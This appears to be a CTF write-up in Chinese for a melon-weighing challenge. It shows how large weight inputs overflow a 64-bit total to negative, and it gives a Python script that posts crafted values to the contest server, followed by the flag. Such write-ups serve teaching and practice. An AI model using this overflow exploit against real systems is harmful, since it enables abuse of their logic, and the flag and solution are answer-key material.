 # 卖瓜

> 有一个人前来买瓜。 
>
> HQ：哥们，这瓜多少钱一斤啊？ 
>
> 你：两块钱一斤。 
>
> HQ：What's up！这瓜皮子是金子做的还是瓜粒子是金子做的？ 
>
> 你：你瞧瞧现在哪有瓜啊？这都是大棚的瓜，只有 6 斤一个和 9 斤一个的，你嫌贵我还嫌贵呢。 （HQ 心里默默一算）
>
> HQ：给我来 20 斤的瓜。 
>
> 你：行！ HQ：行？这瓜能称出 20 斤吗？ 你：我开水果摊的，还不会称重？ 
>
> HQ：我问你这瓜能称出 20 斤吗？ 
>
> 你：你是故意找茬，是不是？你要不要吧！ 
>
> HQ：你这瓜要是刚好 20 斤吗我肯定要啊。那它要是没有怎么办啊？ 
>
> 你：要是不是 20 斤，我自己吃了它，满意了吧？ （你开始选瓜称重）

neta华强卖瓜。

![1](img/1.png)

尝试可以发现，瓜的总重可以加到特别大：

![2](img/2.png)

于是考虑上溢出。当总重超过![2^{63}](img/3.png)时，会变为负数。

![4](img/4.png)

这样就能等效构造出负数个瓜。

上脚本：

```python
import requests as r
import re
import time

if __name__ == '__main__':
    url = 'http://202.38.93.111:15003/?token=tokennnnnnnnn'
    s = r.session()
    data = {
        'b6': 1537228672809126000,
        'b9': 1024819115206088101,
        'submit': '操作！'
    }
    _ = s.post(url, data=data).text
    _ = re.findall(r'电子秤上已有 (.*?)/20 斤的瓜。', _)[0]
    print(_) # -4096

    data = {
        'b6': 680,
        'b9': 4,
        'submit': '操作！'
    }
    time.sleep(3)
    _ = s.post(url, data=data).text
    print(_)
```

得到flag `flag{HUAQIANG!HUAQIANG!_72186c8adf}` 。

